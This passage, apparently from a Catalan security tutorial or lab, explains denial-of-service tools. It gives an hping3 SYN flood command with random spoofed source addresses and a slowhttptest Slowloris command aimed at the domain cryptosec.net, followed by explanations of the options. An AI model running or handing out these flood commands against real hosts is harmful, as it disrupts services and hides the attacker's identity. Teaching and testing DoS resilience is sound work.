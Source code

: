 - S activa el flag Syn

– flood indica a hping que enviï els paquets a la màxima velocitat possible

- ip_victima és la __ip__ o __domini__ a atacar

Si volem que la nostra ip no sigui visible podem afegir-li l'opció –ai la ip que falsejarem o bé utilitzar –rand-source amb què es generen adreces d'origen ip a l'atzar:

``hping3 --randsource -p80 -S --flood 10.200.243.164``

o també podem utilitzar: `Slowhttptest`, nosaltres utilitzarem __slowhttptest__.

> _slowhttptest - Denial Of Service attacks simulator_

`slowhttptest -c 40000 -H -i 30 -r 500 -l 600 -u http://cryptosec.net`

``-c`` _number of connections
Specifies the target number of connections to establish during the test._

``-H'`` _Starts slowhttptest in SlowLoris mode, sending unfinished HTTP requests._

``-i`` _seconds
Specifies the interval between follow up data for slowrois and Slow POST tests._

``-r`` _connections per second
Specifies the connection rate._

``-l`` _seconds
Specifies test duration in seconds._

``-u`` _URL
Specifies the URL._
